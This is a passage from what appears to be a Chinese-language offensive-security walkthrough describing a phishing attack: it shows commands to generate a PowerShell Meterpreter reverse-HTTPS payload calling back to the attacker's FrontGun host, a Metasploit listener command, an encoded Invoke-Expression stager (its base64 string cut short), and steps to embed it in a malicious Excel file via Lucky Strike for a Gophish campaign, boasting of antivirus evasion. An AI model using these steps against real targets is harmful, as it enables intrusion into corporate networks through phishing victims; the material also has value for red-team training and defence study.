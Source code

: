 ```text
>use powershell/meterpreter/rev_https
>set Proxy Y
>set LHost <FrontGun_IP>
>set LPort 443
>generate
```

这会生成两个文件:

* 执行PowerShell 有效载荷的meter.bat文件
* 一个预先配置的metasploit监听器：meter.rc

我们使用下列命令来启动监听器:

```text
FrontGun$ msfconsole -r meter.rc
```

然后我们可以测试meter.bat文件以确保它正常运行： ![](.gitbook/assets/12.test-meter-bat.png)

好的，现在我们需要人工地深入了解代码，将这个payload插入到Excel文件中。如果打开生成的meter.bat文件，您将看到其唯一目的就是找出目标的体系结构并执行对应版本的PowerShell（x86或x64）： ![](.gitbook/assets/13.code-meter-bat.png)

您可能已经注意到，meter.bat文件还以内联方式调用PS脚本，尽管这种掩饰并没有对命令进行编码。我们可以在VBA中转换该体系结构验证例程，然后从meter.bat文件中借用命令，我们可以开始了。

如果我们想使用Lucky Strike，我们可以假设Excel最有可能在32位进程中运行（大多数情况下是安全的选择），选择适当的代码段，通过删除两个斜杠字符“ \”来进行清理，然后将其保存到一个名为meter.ps1的文件中:

```text
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New- Object IO.MemoryStream (,$([Convert]::FromBase64String("nVRtb9s4DP6eX0EYO [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

我们执行这个meter.ps1文件来检查它是否仍然可以正常工作。现在我们有了正常的PowerShell文件，我们可以使用Lucky Strike生成适当的恶意Excel文件。

### 2.1.4 总结

综上所述，我们使用Gophish建立了一个电子邮件发送平台，收集了一些目标员工，并准备了两种功能强大的Excel恶意软件变种，它们很可能能绕过大多数防病毒保护。

关于这种攻击媒介的妙处在于，如果攻击成功（实际上，我们看起来只需要数百名员工中的一个受害者），我们就能潜入内网。

![](.gitbook/assets/14.network.png)
